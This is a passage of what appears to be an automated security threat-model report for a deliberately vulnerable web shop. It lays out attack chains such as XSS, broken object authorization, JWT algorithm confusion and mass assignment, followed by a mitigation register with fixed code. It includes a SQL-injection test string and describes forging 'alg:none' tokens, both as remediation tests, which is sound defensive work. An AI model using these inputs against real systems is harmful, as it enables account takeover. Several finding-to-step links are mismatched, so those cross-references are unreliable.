
Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-014](#m-014) — Encode output instead of bypassing the framework sanitizer (**P1**): remediating 🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-016](#m-016) — Harden the authentication flow (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`routes/basket.ts:19` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`models/user.ts:80` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Harden the authentication flow (**P1**): remediating 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30`<br/>`lib/insecurity.ts:54` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Harden the authentication flow (**P1**): remediating 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-016](#m-016) — Harden the authentication flow (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline — `ci.yml:161`<br/>`routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-015](#m-015) — Pin third-party dependencies to immutable versions (**P2**): remediating 🟠 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline — `ci.yml:161` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-014](#m-014) — Encode output instead of bypassing the framework sanitizer<br/>❶ [M-017](#m-017) — Harden the authentication flow<br/>❶ [M-018](#m-018) — Hash passwords with a strong, salted algorithm<br/>❶ [M-019](#m-019) — Replace the weak cryptographic algorithm<br/>❶ [M-020](#m-020) — Use parameterized database queries<br/>❶ [M-021](#m-021) — Enforce object-level (ownership) authorization<br/>❶ [M-022](#m-022) — Use parameterized database queries<br/>❶ [M-023](#m-023) — Move cryptographic keys to a managed secret store<br/>❶ [M-024](#m-024) — Enforce correct server-side authorization<br/>❶ [M-025](#m-025) — Remove server-side evaluation of untrusted input<br/>❷ [M-002](#m-002) — Architecture review: validate Data disclosure through cleartext…<br/>❷ [M-003](#m-003) — Drop unnecessary privileges in build and runtime<br/>❷ [M-004](#m-004) — Apply least-privilege permissions<br/>❷ [M-005](#m-005) — Pin third-party dependencies to immutable versions<br/>❷ [M-006](#m-006) — Pin the container base image to an immutable digest<br/>❷ [M-007](#m-007) — Pin the container base image to an immutable digest<br/>❷ [M-015](#m-015) — Pin third-party dependencies to immutable versions<br/>❷ [M-016](#m-016) — Harden the authentication flow<br/>❷ [M-026](#m-026) — Enforce admin authorization server-side on every API call, not via…<br/>❷ [M-028](#m-028) — Require session token validation in Socket\.IO connection middleware…<br/>❷ [M-029](#m-029) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-030](#m-030) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-031](#m-031) — Use parameterized database queries<br/>❷ [M-032](#m-032) — Disable XML external entity (XXE) resolution<br/>❷ [M-033](#m-033) — Add security audit logging<br/>❷ [M-034](#m-034) — Add security audit logging<br/>❷ [M-036](#m-036) — Move cryptographic keys to a managed secret store<br/>❷ [M-037](#m-037) — Restrict `/support/logs` to authenticated admin users and scrub…<br/>❷ [M-038](#m-038) — Add security.isAuthorized middleware before `/encryptionkeys` routes<br/>❷ [M-039](#m-039) — Scope challenge solved broadcasts to per-user authenticated socket…<br/>❷ [M-040](#m-040) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-041](#m-041) — Remove global sleep injection and replace \$where with typed field filter<br/>❷ [M-042](#m-042) — Enforce server-side authorization on every endpoint<br/>❷ [M-043](#m-043) — Disable untrusted package install scripts<br/>❷ [M-044](#m-044) — Add explicit least-privilege permissions block to all GitHub Actions…<br/>❷ [M-045](#m-045) — Add explicit guard against checkout of PR head code<br/>❷ [M-046](#m-046) — Add ownership check and reject non-string _id values<br/>❷ [M-047](#m-047) — Restore security.isAuthorized guard on PUT `/api/Products/:id`<br/>❸ [M-001](#m-001) — Manual review: verify Mass Assignment Role Injection via User…<br/>❸ [M-008](#m-008) — Drop unnecessary privileges in build and runtime<br/>❸ [M-009](#m-009) — Sign and verify release artifacts<br/>❸ [M-010](#m-010) — Apply least-privilege permissions<br/>❸ [M-011](#m-011) — Pin the container base image to an immutable digest<br/>❸ [M-027](#m-027) — Replace knowledge-based security questions with email-based OTP…<br/>❸ [M-035](#m-035) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-048](#m-048) — Add security audit logging<br/>❸ [M-049](#m-049) — Add TTL-based eviction to the in-memory authenticated-user store<br/>❸ [M-050](#m-050) — Rate-limit and lock out repeated authentication attempts<br/>❸ [M-051](#m-051) — Pass JWT in Socket\.IO auth handshake and validate it server-side…<br/>❹ [M-012](#m-012) — Add a container healthcheck<br/>❹ [M-013](#m-013) — Pin the container base image to an immutable digest

### P1 — Immediate

<a id="m-014"></a>
#### M-014 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-001](#f-001) — Systemic XSS (`administration.component.ts:78`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `administration.component.ts:60`

**How:** Remove `this.sanitizer.bypassSecurityTrustHtml()` calls at `administration.component.ts:60` and :78. Render email and comment as plain text via Angular interpolation `{{user.email}}` and `{{feedback.comment}}`. If the administration UI requires formatted HTML display (e.g., clickable links in feedback), apply DOMPurify with a strict allow-list: `DOMPurify.sanitize(feedback.comment, { ALLOWED_TAGS: ['b', 'i', 'u', 'a'], ALLOWED_ATTR: ['href'] })`. Validate and encode feedback.comment server-side before storage so that the XSS payload never reaches the database. Deploy a `Content-Security-Policy` header restricting `script-src` to `'self'` to prevent exfiltration even if an `innerHTML` sink is reached.

1. Remove `this.sanitizer.bypassSecurityTrustHtml()` calls at `administration.component.ts:60` and :78. Render email and comment as plain text via Angular interpolation `{{user.email}}` and `{{feedback.comment}}`.
2. If the administration UI requires formatted HTML display (e.g., clickable links in feedback), apply DOMPurify with a strict allow-list: `DOMPurify.sanitize(feedback.comment, { ALLOWED_TAGS: ['b', 'i', 'u', 'a'], ALLOWED_ATTR: ['href'] })`.
3. Validate and encode feedback.comment server-side before storage so that the XSS payload never reaches the database.
4. Deploy a `Content-Security-Policy` header restricting `script-src` to `'self'` to prevent exfiltration even if an `innerHTML` sink is reached.

```javascript
// administration.component.ts — before (line 78)
feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)
// after
// no transformation — use plain text binding in template

// administration.component.html — before (line 60)
<mat-cell *matCellDef="let feedback" ...><p [innerHTML]="feedback.comment"></p></mat-cell>
// after
<mat-cell *matCellDef="let feedback" ...><p>{{feedback.comment}}</p></mat-cell>
```

**Reference:** CWE-79

---

<a id="m-017"></a>
#### M-017 — Harden the authentication flow

**Addresses:**

- 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:54`

**How:** Change `lib/insecurity.ts:54` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects any token whose header specifies a different algorithm including `none`. Verify the `express-jwt` package version is ≥6.0.0 (the version that introduced the `algorithms` required field); update if older. Add a test that submits a `alg:none` token to a protected endpoint and asserts HTTP 401.

1. Change `lib/insecurity.ts:54` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects any token whose header specifies a different algorithm including `none`.
2. Verify the `express-jwt` package version is ≥6.0.0 (the version that introduced the `algorithms` required field); update if older.
3. Add a test that submits a `alg:none` token to a protected endpoint and asserts HTTP 401.

```javascript
// lib/insecurity.ts:54 — add algorithms whitelist
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-018"></a>
#### M-018 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:** Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` using the `bcrypt` npm package (already a transitive dependency in many `Node.js` stacks). Add a migration that re-hashes existing `MD5` passwords on next successful login (detect by hash length: `MD5` = 32 hex chars, bcrypt = 60 chars starting with `$2b$`). Set the Sequelize `password` setter in `models/user.ts:76-78` to call the async bcrypt function and store the result, ensuring no raw cleartext is ever logged.

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` using the `bcrypt` npm package (already a transitive dependency in many `Node.js` stacks).
2. Add a migration that re-hashes existing `MD5` passwords on next successful login (detect by hash length: `MD5` = 32 hex chars, bcrypt = 60 chars starting with `$2b$`).
3. Set the Sequelize `password` setter in `models/user.ts:76-78` to call the async bcrypt function and store the result, ensuring no raw cleartext is ever logged.

```javascript
// lib/insecurity.ts — replace hash()
import bcrypt from 'bcrypt'
export const hash = async (data: string): Promise<string> => bcrypt.hash(data, 12)
export const verifyHash = async (plain: string, stored: string): Promise<boolean> => bcrypt.compare(plain, stored)
```

**Reference:** CWE-916

---

<a id="m-019"></a>
#### M-019 — Replace the weak cryptographic algorithm

**Addresses:**

- 🔴 [F-006](#f-006) — JWT Algorithm Confusion (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:191`

**How:** Upgrade express-jwt to v8+ (current): `npm install express-jwt@^8`. Pass `algorithms: ['RS256']` in the `expressJwt` options: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`. Verify that `jwt.verify()` calls in `lib/insecurity.ts:191` also pass `{ algorithms: ['RS256'] }`.

1. Upgrade express-jwt to v8+ (current): `npm install express-jwt@^8`.
2. Pass `algorithms: ['RS256']` in the `expressJwt` options: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`.
3. Verify that `jwt.verify()` calls in `lib/insecurity.ts:191` also pass `{ algorithms: ['RS256'] }`.

```javascript
// lib/insecurity.ts — fixed
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-327

---

<a id="m-020"></a>
#### M-020 — Use parameterized database queries

**Addresses:**

- 🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace `models.sequelize.query(\`SELECT...\`)` at `routes/login.ts:34` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })`. Remove all raw SQL string concatenation from the auth path; use Sequelize's ORM layer exclusively so the driver handles quoting. Add integration tests that submit `' OR '1'='1` as the email and verify the response is HTTP 401, not a user object.

1. Replace `models.sequelize.query(\`SELECT...\`)` at `routes/login.ts:34` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })`.
2. Remove all raw SQL string concatenation from the auth path; use Sequelize's ORM layer exclusively so the driver handles quoting.
3. Add integration tests that submit `' OR '1'='1` as the email and verify the response is HTTP 401, not a user object.

```javascript
// Parameterized replacement for routes/login.ts:34
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email || '',
    password: security.hash(req.body.password || ''),
    deletedAt: null
  }
})
```

**Reference:** CWE-89

---

<a id="m-021"></a>
#### M-021 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-022"></a>
#### M-022 — Use parameterized database queries

**Addresses:**

- 🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace the raw string interpolation with Sequelize named replacements: `models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :criteria OR description LIKE :criteria) AND deletedAt IS NULL) ORDER BY name', { replacements: { criteria: '%' + criteria + '%' }, type: QueryTypes.SELECT })`. Import `QueryTypes` from `sequelize` and verify the query result type is still compatible with the downstream `.then(([products])` destructuring. Apply the same fix to `routes/login.ts:34` which has an identical raw-query interpolation on the `email` parameter.

1. Replace the raw string interpolation with Sequelize named replacements: `models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :criteria OR description LIKE :criteria) AND deletedAt IS NULL) ORDER BY name', { replacements: { criteria: '%' + criteria + '%' }, type: QueryTypes.SELECT })`.
2. Import `QueryTypes` from `sequelize` and verify the query result type is still compatible with the downstream `.then(([products])` destructuring.
3. Apply the same fix to `routes/login.ts:34` which has an identical raw-query interpolation on the `email` parameter.

```javascript
// routes/search.ts — safe version
import { QueryTypes } from 'sequelize'
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE :q OR description LIKE :q) AND deletedAt IS NULL) ORDER BY name`,
  { replacements: { q: `%${criteria}%` }, type: QueryTypes.SELECT }
).then((products: any) => { ... })
```

**Reference:** CWE-89

---

<a id="m-023"></a>
#### M-023 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-010](#f-010) — Hardcoded Cryptographic Key (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Generate a new RSA-2048 key pair (or switch to ECDSA P-256 for equivalent security at smaller size): `openssl genrsa -out jwt.key 2048 && openssl rsa -in jwt.key -pubout -out jwt.pub`. Store the private key in an environment variable (`JWT_PRIVATE_KEY`) or a secrets manager; read it at startup with `process.env.JWT_PRIVATE_KEY` - never commit to source. Remove the hardcoded key from `lib/insecurity.ts:23` and replace with `const privateKey = process.env.JWT_PRIVATE_KEY`; add startup validation that aborts if the variable is absent. Treat the old private key as compromised: invalidate all active sessions on deploy by requiring a different `kid` or issuer claim.

1. Generate a new RSA-2048 key pair (or switch to ECDSA P-256 for equivalent security at smaller size): `openssl genrsa -out jwt.key 2048 && openssl rsa -in jwt.key -pubout -out jwt.pub`.
2. Store the private key in an environment variable (`JWT_PRIVATE_KEY`) or a secrets manager; read it at startup with `process.env.JWT_PRIVATE_KEY` - never commit to source.
3. Remove the hardcoded key from `lib/insecurity.ts:23` and replace with `const privateKey = process.env.JWT_PRIVATE_KEY`; add startup validation that aborts if the variable is absent.
4. Treat the old private key as compromised: invalidate all active sessions on deploy by requiring a different `kid` or issuer claim.

```javascript
// lib/insecurity.ts — read from environment
const privateKey = process.env.JWT_PRIVATE_KEY ??
  (() => { throw new Error('JWT_PRIVATE_KEY env var required') })()
export const publicKey = process.env.JWT_PUBLIC_KEY ??
  (() => { throw new Error('JWT_PUBLIC_KEY env var required') })()
```

**Reference:** CWE-321

---

<a id="m-024"></a>
#### M-024 — Enforce correct server-side authorization

**Addresses:**

- 🔴 [F-011](#f-011) — Role Escalation (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:54`

**How:** Rotate the signing key (see auth-003) - this is the prerequisite that makes the JWT trust model meaningful. After rotation, add server-side role verification: on each request to a privileged endpoint, load the user record from the DB and compare `user.role` rather than trusting the JWT claim exclusively. Remove the `deluxeToken` HMAC check from `isDeluxe()` in favour of a DB column lookup - HMAC-based client-side role proofs are intrinsically fragile.

1. Rotate the signing key (see auth-003) - this is the prerequisite that makes the JWT trust model meaningful.
2. After rotation, add server-side role verification: on each request to a privileged endpoint, load the user record from the DB and compare `user.role` rather than trusting the JWT claim exclusively.
3. Remove the `deluxeToken` HMAC check from `isDeluxe()` in favour of a DB column lookup - HMAC-based client-side role proofs are intrinsically fragile.

**Reference:** CWE-863

---

<a id="m-025"></a>
#### M-025 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-012](#f-012) — Remote Code Execution (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Remove the `safeEval` / `vm.runInContext` invocation entirely from `routes/b2bOrder.ts`. Accept order data as a structured JSON body validated against a strict schema (e.g. using `zod` or `joi`). If expression evaluation is genuinely required, use a purpose-built sandboxed evaluator that runs in a separate child process with no access to the main process's global scope.

1. Remove the `safeEval` / `vm.runInContext` invocation entirely from `routes/b2bOrder.ts`.
2. Accept order data as a structured JSON body validated against a strict schema (e.g. using `zod` or `joi`).
3. If expression evaluation is genuinely required, use a purpose-built sandboxed evaluator that runs in a separate child process with no access to the main process's global scope.

```javascript
// routes/b2bOrder.ts — fixed (schema-based replacement)
import { z } from 'zod'
const OrderSchema = z.object({
  cid: z.string().max(64),
  orderLinesData: z.array(z.object({ quantity: z.number().int().positive(), productId: z.number().int().positive() }))
})
// validate before use
const parsed = OrderSchema.parse(body)
```

**Reference:** CWE-94

---

### P2 — This Sprint

<a id="m-002"></a>
#### M-002 — Architecture review: validate Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-051](#f-051) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

**How:** This is an architectural / coverage-gap finding - the analyser inferred 'Data disclosure through cleartext transport' from architectural reasoning, not from a confirmed source-to-sink path. Schedule a focused review of data to validate the assumption: read the relevant control implementation, sample 2–3 representative call paths, and decide whether to convert the finding into a concrete defect (with file:line evidence) or accept the residual risk. This single review card covers 1 clustered `finding(s)` under the same theme to avoid [§9](#9-abuse-cases) inflation.

---

<a id="m-003"></a>
#### M-003 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-024](#f-024) — Uses --unsafe-perm install flag — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user - `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

---

<a id="m-004"></a>
#### M-004 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-025](#f-025) — GitHub Actions workflow missing top-level permissions (`update-news-www.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/update-news-www.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-005"></a>
#### M-005 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-026](#f-026) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:23`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-006"></a>
#### M-006 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-027](#f-027) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-007"></a>
#### M-007 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-028](#f-028) — On not committed (`package-lock.json:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `package-lock.json:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI - Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-015"></a>
#### M-015 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🔴 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline (`ci.yml:161`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:161`

**How:** Run `gh api repos/coverallsapp/github-action/git/ref/tags/v2` to resolve the current commit SHA for the `v2` tag. Replace `coverallsapp/github-action@v2` with `coverallsapp/github-action@<full-40-char-SHA> # v2.x.x` in `ci.yml` line 161. Add a Dependabot configuration for `package-ecosystem: github-actions` to track future action updates and auto-PR SHA bumps.

1. Run `gh api repos/coverallsapp/github-action/git/ref/tags/v2` to resolve the current commit SHA for the `v2` tag.
2. Replace `coverallsapp/github-action@v2` with `coverallsapp/github-action@<full-40-char-SHA> # v2.x.x` in `ci.yml` line 161.
3. Add a Dependabot configuration for `package-ecosystem: github-actions` to track future action updates and auto-PR SHA bumps.

```javascript
# ci.yml line 161 — before:
      uses: coverallsapp/github-action@v2
# after:
      uses: coverallsapp/github-action@3dfc5567390f1d858f4321ef0feede23a0b0bbf1 # v2.3.4
```

**Reference:** CWE-829

---

<a id="m-016"></a>
#### M-016 — Harden the authentication flow

**Addresses:**

- 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** Switch the Google OAuth redirect to `response_type=code` with `code_challenge_method=S256` and a per-request PKCE `code_verifier`/`code_challenge` pair generated via `crypto.getRandomValues()`. Generate a cryptographically random password (`crypto.getRandomValues(new Uint8Array(32))` → hex) on first OAuth account provisioning; store only the hash server-side. Never derive the password from an email claim. Add `state` parameter: generate a random nonce before redirecting, store it in `sessionStorage`, and verify it on callback before processing the token. Move token exchange server-side (Backend-for-Frontend pattern) so the access_token never enters the browser JavaScript context.

1. Switch the Google OAuth redirect to `response_type=code` with `code_challenge_method=S256` and a per-request PKCE `code_verifier`/`code_challenge` pair generated via `crypto.getRandomValues()`.
2. Generate a cryptographically random password (`crypto.getRandomValues(new Uint8Array(32))` → hex) on first OAuth account provisioning; store only the hash server-side. Never derive the password from an email claim.
3. Add `state` parameter: generate a random nonce before redirecting, store it in `sessionStorage`, and verify it on callback before processing the token.
4. Move token exchange server-side (Backend-for-Frontend pattern) so the access_token never enters the browser JavaScript context.

```javascript
// Generate PKCE challenge
const verifier = crypto.getRandomValues(new Uint8Array(32));
const verifierHex = Array.from(verifier).map(b => b.toString(16).padStart(2,'0')).join('');
const challenge = btoa(String.fromCharCode(...new Uint8Array(await crypto.subtle.digest('SHA-256', new TextEncoder().encode(verifierHex)))));
sessionStorage.setItem('pkce_verifier', verifierHex);
window.location.replace(`${oauthProviderUrl}?response_type=code&code_challenge=${challenge}&code_challenge_method=S256&state=${nonce}&...`);
```

**Reference:** CWE-287

---

<a id="m-026"></a>
#### M-026 — Enforce admin authorization server-side on every API call, not via client-side JWT decode

**Addresses:**

- 🔴 [F-014](#f-014) — Client-Side-Only Admin Route Guard (`app.guard.ts:52`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:52`

